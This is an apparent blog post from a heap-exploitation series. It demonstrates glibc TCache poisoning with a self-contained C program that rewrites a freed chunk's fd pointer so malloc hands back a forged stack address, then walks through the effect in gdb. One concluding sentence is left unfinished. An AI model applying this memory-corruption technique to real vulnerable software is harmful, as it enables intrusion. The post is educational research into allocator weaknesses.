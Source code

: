 ```yaml
---
layout: post
title: "Heap Funk: Playing with TCache"
date: 2020-07-10 08:59:00 +0200
tags: [Heap, C, Linux]
author: MrI/O
categories: research
excerpt_separator: <!--more-->

---
```



As I was learning some stuff about TCache, and its lack of checks, it came patent that some of those already mitigated attacks were available once again. I was especially concerned about how the TCache bin was managed, and thus decided to go a little deeper. There's many checks being overlooked due to performance reasons. 

What would happen if we issue a `free` over a pointer obtained via `malloc` and then modify something inside it, will it be actually disrupting the heap management? >) 

Let's find out
<!--more-->

As explained on [previous posts]({% post_url 2020-06-03-HeapSeries-4-5-Basics %}), the freebins are used to keep track of the previously allocated chunks of memory. The chunk structure is constructed adding a couple fields before the **actual** data we can play with, and by reusing some of the bytes we requested, to fill them with pointers to the next/previous items in the list, as well as their sizes.

So far so good. 



### TCache Poisoning


##### [`tcache_poisoning.c`](/assets/heapseries/tcache/tcache_poisoning.c)
{% highlight c linenos %}

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stddef.h>

struct forged_chunk {
    size_t prev_size;
    size_t size;
    struct forged_chunk *fd;
    struct forged_chunk *bk;
        /* Only used for large blocks: pointer to next larger size.  */
    struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
    struct malloc_chunk* bk_nextsize;
};


struct forged_chunk *freed_to_chunk(void *p) {
    return p - offsetof(struct forged_chunk, fd);
}

int main() {
    void *a = malloc(10);
    char victim_data[] = "DeadCafeF0";
    printf("[i] Allocated a\n\t|...a@%p\n", a);

    struct forged_chunk f_chunk;
    printf("[i] Allocated a forged_chunk\n");
       printf("\t|...f_chunk@%p\n", &f_chunk);


    f_chunk.size = 0x20; // 0x20 if 64b, 0x10 if 32b
    printf("[i] Attackers data\n");
       printf("\t|...&f_chunk.fd@%p\n", &f_chunk.fd);

    f_chunk.fd = victim_data;

    printf("[i] Allocated stuff in forged_chunk\n");
            printf("\t|...%s\n", (char*)f_chunk.fd);
    free(a);
            printf("\t|...a@%p got freed-up\n\n", a);

    struct forged_chunk *c_a = freed_to_chunk(a);
    printf("[*] TCACHE BIN CURRENT STATE\n");
        printf("\t|...head[fd] -> a[fd] -> %p -> tail\n", c_a->fd);//a);
        printf("\t\t|...Messing up fastbin-chunk\n");
        printf("\t\t|...Swapping a->fd to f_chunk->fd@%p\n\n", &f_chunk.fd);

    c_a->fd = (char*)&f_chunk.fd;

    printf("[*] TCACHE BIN MESSED UP STATE\n");
        printf("\t|...head[fd] -> a[fd] -> %p -> tail\n\n", c_a->fd);

    printf("[i] Allocating 10 bytes to get rid of a\n");
    void * c = malloc(10);
        printf("\t|...allocated _@%p\n\n", c);

    char *victim = (char*) malloc(10);
    printf("[*] Requesting another 10 bytes\n");
        printf("\t|...victim@%p\n\t\t|...== f_chunk->fd@%p\n\n", victim, &f_chunk.fd);

    printf("[*] Printing out *victim allocated memory:\n");
        printf("\t|...%s\n", *(char**)victim);

    free(c);
    return 0;
}
{% endhighlight %}


>This is a rather lengthly code, however most of it is just `printf` and the code is pretty self-explanatory.

As stated before, our idea here is to disrupt the TCache linked-list structure in order to _confuse_ the heap manager to make it return an arbitrary pointer on our next allocation. 

To recap some of the stuff learned before:

- If we `malloc` some bytes (up to 1032B on a 64bit arch and 516 on a 32bit arch counting with the overheading) we get a pointer that will likely end up in a TCache bin once freed.
- If we `free` that pointer, and there's less than 7 chunks already in the TCache bin for that size, the chunk will be referenced at the TCache bin structure as the next chunk to be returned for a new allocation of that size.
- If we `malloc` again the same amount of bytes, then we get the very same chunk we got before. 

If, for some reason, we would be able to modify the `fd` pointer of a freed chunk in the TCache bin, the next-next `malloc` request will return the modified pointer. The first next is the actual and real chunk. The second one, is our forged chunk at some random address.

Let's take a look at this particular behavior by debugging the provided example. 

> You can compile the code with
>
> `gcc tcache_poisoning.c -Wall -ggdb -o tcache_poisoning` 


#### Debugging the TCache poisoning

Giving that there's a ton of `printf` coded to aid in how the heap looks like, we're going to use `gdbserver` to run in a separate shell so we can see the program's output. 

Let's run it: `gdbserver :9999 ./tcache_poisoning` and in another shell: `gdb ./tcache_poisoning -q`

![Fire-up gdbserver and gdb](/assets/heapseries/tcache/gdb1.png)


Still, we need to connect both sessions, so run `target remote 127.0.0.1:9999` at the `gdb` shell.

![Connect to remote target](/assets/heapseries/tcache/gdb2.png)

It will spit a lot of info and will break at the entry point.

![Connect to remote target](/assets/heapseries/tcache/gdb3.png)

Place a breakpoint at main `b main` and let it continue `c`: 

![Break at main](/assets/heapseries/tcache/gdb4.png)


I'm going to let it run until line 48 of our code, `n 18`, and then we'll take a look at the heap status :)

![TCache bin status](/assets/heapseries/tcache/gdb5.png)

Well, apparently the TCache has our just freed chunk right there. By inspecting the heap with some of those handful tools we installed in the [third part of the HeapSeries]({% post_url 2020-06-03-HeapSeries-3-5-Basics %}), we can see if this is actually true: 


![TCache bin status](/assets/heapseries/tcache/gdb6.png)

Nice. It seems the `FD` of our chunk points to 0x0, thus the `(nil)` thing printed above. That's the pointer we want to modify. 

Hit `n`ext a couple times more until we get line 48 executed and some more info printed out for us: 


![TCache bin to be messed up](/assets/heapseries/tcache/gdb7.png)


Good, so we definitely messed with the TCache bin linked list. 

![TCache bin status](/assets/heapseries/tcache/gdb8.png)

Worse than we thought: 

![TCache bin so weird...](/assets/heapseries/tcache/gdb9.png)


As we can see, the TCache bin looks pretty foo-up right now... 

- The first chunk to be returned on the next `malloc` request will be `0x555555559260`
- The next one will be our forged chunk @`0x7fffffffe210`. Which, at the same time points to another address (`0x7fffffffe235`), which finally points to our string. That's the reason for the double dereference at line 62 of our code. (More on this later)

If we let it run for a little bit more, we can see how, by requesting `malloc` twice, our _victim_ makes its appearance and it points to the same address as our forged chunk.

![Victim address!](/assets/heapseries/tcache/gdb10.png)

Finally, let it continue to the end so we'll see how it prints the victim buffer from our forged chunk address: 


![Buffer print!](/assets/heapseries/tcache/gdb11.png)


---

#### Conclusions

TCache was a great performance improvement introduced into GLIBC implementation, however, it comes at a cost.

Some of the mitigations put in place are rendered useless when it comes to using TCache. So, everytime you're exploiting some random heap-realted vulnerability, keep on mind that the implementation


###### Hint hint!

If you're wondering why we didn't just `strcpy` the string buffer into the `c_a.fd` so it could be accessed directly instead of using a double dereference, I'd like to point you to [GLIBC2.28 implementation](https://sources.debian.org/src/glibc/2.28-10/malloc/malloc.c/#L2936) (yikes...) where you will find that at some point in the memory allocation, the `bk` is set to `NULL` thus string terminating our buffer, as you can see in the following img.

But hey, don't trust me: Here, try it yourself with a [modified code ;)](/assets/heapseries/tcache/tcache_poisoning2.c)

![Malloc.c internals](/assets/heapseries/tcache/gdb12.png)


### References

A lot of them, to be honest :D Check out the [references]({% post_url 2020-06-03-HeapSeries-References %}) for the HeapSeries and some more here: 

- [GLIBC 2.28 implementation](https://sources.debian.org/src/glibc/2.28-10/malloc/malloc.c)
- [Heap Structure at the CTF Wiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/heap_structure/)
- [children_tcache writeup and tcache overview](http://eternal.red/2018/children_tcache-writeup-and-tcache-overview/)






